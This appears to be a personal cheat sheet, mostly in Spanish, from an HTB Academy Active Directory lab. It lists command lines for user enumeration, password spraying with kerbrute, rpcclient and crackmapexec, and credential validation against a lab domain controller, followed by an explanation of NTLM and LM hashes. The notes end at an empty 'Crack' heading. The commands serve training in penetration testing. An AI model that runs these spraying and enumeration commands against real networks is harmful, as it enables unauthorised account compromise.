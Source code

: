 > ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U


## Con User y Pass validos

> sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users

# Password Spray

>  for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

> kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

>  kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt # intenta enumerar usuarios validos


> sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

## Validating the Credentials with CrackMapExec

> sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

>sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep + # la lista debe de ser solo el nombre de usuario ejemplo mvazquez


# Hashes

Antes de profundizar en los detalles técnicos, revisemos NTLM Relaying y describamos las condiciones necesarias para la explotación. Windows New Technology Lan Manager (NTLM) es un conjunto de protocolos de seguridad que ofrece Microsoft para autenticar y autorizar usuarios en computadoras con Windows. NTLM es un protocolo de estilo de desafío/respuesta en el que el resultado es un Hash Net-NTLMv1 o v2. Este hash es un recurso relativamente bajo para descifrarlo, pero cuando se siguen fuertes políticas de seguridad de contraseñas largas y aleatorias, se mantiene bien. Sin embargo, los hashes Net-NTLM no se pueden usar para ataques Pass-The-Hash (PTH), solo los hashes NTLM locales en la propia máquina víctima.

Cuado atacas AD los passwords pueden guardarse de todas esta maneras dependiendo de que tan viejo sea el dominio. Aunque no confundir porque tambien existe la autenticacion por los protocolos NTLM NTLMv1 NTLMv2 los cuales usan estos hashes y de ahi viene una confucion.

## LM

Los hashes mas viejitos. LM was turned off by default starting in Windows Vista/Server 2008, but might still linger in a network if there older systems are still used. It is possible to enable it in later versions through a GPO setting (even Windows 2016/10).

***Example***

>299BD128C1101FD6

### Crack

